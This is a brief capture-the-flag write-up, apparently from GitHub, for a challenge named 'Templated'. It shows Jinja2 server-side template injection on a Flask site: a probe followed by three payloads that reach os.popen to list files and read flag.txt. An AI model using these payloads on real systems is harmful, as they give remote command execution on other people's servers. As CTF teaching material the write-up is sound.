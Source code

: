 # Templated
![Screenshot from 2021-08-04 16-05-21](https://user-images.githubusercontent.com/87865134/128154165-59273d02-11ef-4eeb-b8b6-7dc8b90a0436.png)

> web use Flask/Jinja2

## - Test Server-side template injection
  `/{{7*7}}`  
 ![Screenshot from 2021-08-04 16-07-33](https://user-images.githubusercontent.com/87865134/128154512-c6e25556-d0fd-43fd-bc2f-7de838220637.png)
  
 > found template injection

## - Exploit
### 1. List all objects
```python
/{{().__class__.__bases__[0].__subclasses__()}}
```
![Screenshot from 2021-08-04 16-09-44](https://user-images.githubusercontent.com/87865134/128154925-b4f456e1-da1f-4b3a-989c-5a11c5fc0640.png)

### 2. List files in current directory
```python
/{{().__class__.__bases__[0].__subclasses__()[186].__init__.__globals__["__builtins__"]["__import__"]("os").popen("ls *").read()}}
```
![Screenshot from 2021-08-04 16-15-11](https://user-images.githubusercontent.com/87865134/128156109-14aa0970-9159-4e8d-9f6c-ada560cc9837.png)

> found flag.txt

### 3. Read file ***flag.txt*** to get flag
```python
/{{().__class__.__bases__[0].__subclasses__()[186].__init__.__globals__["__builtins__"]["__import__"]("os").popen("cat flag.txt").read()}}}}
```
![Screenshot from 2021-08-04 16-16-48](https://user-images.githubusercontent.com/87865134/128155852-b8bfca9c-55f7-4e2a-a4db-8b79a7012a1f.png)

## - Description
> **category:** Server-side Template Injection
